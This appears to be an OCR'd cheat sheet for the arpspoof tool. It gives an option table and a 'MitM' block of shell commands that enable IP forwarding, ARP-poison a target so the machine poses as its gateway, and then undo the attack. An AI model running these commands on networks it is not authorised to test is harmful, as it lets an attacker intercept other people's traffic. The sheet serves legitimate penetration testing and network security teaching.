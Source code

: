 
This is an extremely effective way of sniffing traffic on a switch.



|                    |                                                                                                                                                                                                                                                                                                                                                                                                                  |
| ------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `‐i interface`     | Specify the interface to use.                                                                                                                                                                                                                                                                                                                                                                                    |
| `‐t target`        | Specify a particular host to ARP poison (if not specified, all hosts on the LAN).<br>Repeat to specify multiple hosts. r Poison both hosts (host and target) to capture traffic in both directions. (only valid in conjuntion with -t)                                                                                                                                                                           |
| `host`               | Specify the host you wish to intercept packets for (usually the local gateway).                                                                                                                                                                                                                                                                                                                                  |
| `‐c own/host/both` | Specify which hardware address t use when restoring the arp configuration; while cleaning up, packets can be send with the own address as well as with the address of the host. Sending packets with a fake hw address can disrupt connectivity with certain switch/ap/bridge configurations, however it works more reliably than using the own address, which is the default way arpspoof cleans up afterwards. |

# MitM
```bash
# Turn on the packet forwarding in Linux
# By enabling the packet forwarding, you disguise your local machine to act as the network router.
$ sysctl -w net.ipv4.ip_forward=1
$ echo '1' > /proc/sys/net/ipv4/ip_forward # enable packet forwarding, IP forwarding

$ arpspoof [-i <Network_Interface_Name>] [-t <target_IP>] [-r <impersonated_IP>] # ARP spoofing / MitM attack (remeber to turn on IP forwarding)

# Stopping the attack
# kill arpspoof proceses and
# Turn off the packet forwarding in Linux
$ sysctl -w net.ipv4.ip_forward=0
$ echo '0' > /proc/sys/net/ipv4/ip_forward # disable packet forwarding, IP forwarding
```